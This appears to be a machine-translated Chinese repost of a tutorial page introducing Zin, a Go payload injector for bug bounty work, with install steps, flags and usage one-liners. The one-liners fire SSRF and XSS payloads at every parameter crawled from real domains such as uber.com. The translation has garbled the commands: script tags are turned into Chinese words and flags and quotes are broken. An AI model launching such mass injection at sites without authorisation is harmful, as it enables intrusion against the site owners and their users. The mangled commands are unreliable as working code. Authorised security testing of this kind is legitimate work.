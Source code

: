 # Zin:一个用 Go 编写的 Bugbounties 的有效载荷注入器

> 原文：<https://kalilinuxtutorials.com/zin/>

[![Zin : A Payload Injector For Bugbounties Written In Go](img//f91a001f9a4ae60ff730234adffb92ea.png "Zin : A Payload Injector For Bugbounties Written In Go")](https://1.bp.blogspot.com/-aBp8kx_pb_E/X2icqkNA5kI/AAAAAAAAHlI/OIBOJrvce4QoTHTRHxMrjBbZzHh-KPidQCLcBGAsYHQ/s728/Zin.png)

**Zin** 是用 Go 写的 Bugbounties 的有效载荷注入器。

![](img//57d2fd14a74c910ebc325a150ab41363.png)

**特性**

*   将多个有效负载注入所有参数
*   将单个有效负载注入所有参数
*   将响应保存到输出文件夹中
*   显示状态代码和响应长度
*   能在回应中寻找模式
*   非常快
*   易于设置

**安装**

`**$ go get -u github.com/ethicalhackingplayground/Zin**`

**新功能**

*   响应中的模式匹配
*   匹配状态代码

**自变量**

**愿奖金到来**
-c int
并发性(默认为 20)
-g string
grep 任何匹配的响应
-p string
要使用的有效载荷
-pL string
要使用的有效载荷列表
-s int
按状态代码过滤(默认为 200)

*   **SSRF 例子**

**$ sub finder uber.com | gau | grep " = http " | Zin-c 80-p http://10 . 82 . 214 . 84:31386/foobar . js-g " SUP3R _ s 3c ret _ 1337 _ K3y "**

*   **XSS 例子**

**$ sub finder uber.com | gau | Zin-c80-p ' "><脚本>警戒(matchforthis)脚本> ' -g "matchforthis"**

*   **注入多个有效载荷**

**$ cat hosts | gau | grep "&" | Zin-c80-pL<payloadfile>**

*   **子域扫描**

**$ sub finder-dL domains–silent | gau | Zin-c80-p<有效载荷>**

*   **仅测试参数**

**$ echo“Google . com”| gau | grep”&“| Zin-c 80-p”>“T4”脚本>alert(match this)</脚本<”-g“match this”**

*   **多个主机**

**$ cat hosts | gau | Zin -c 80 -p <有效载荷>**

[**Download**](https://github.com/ethicalhackingplayground/Zin)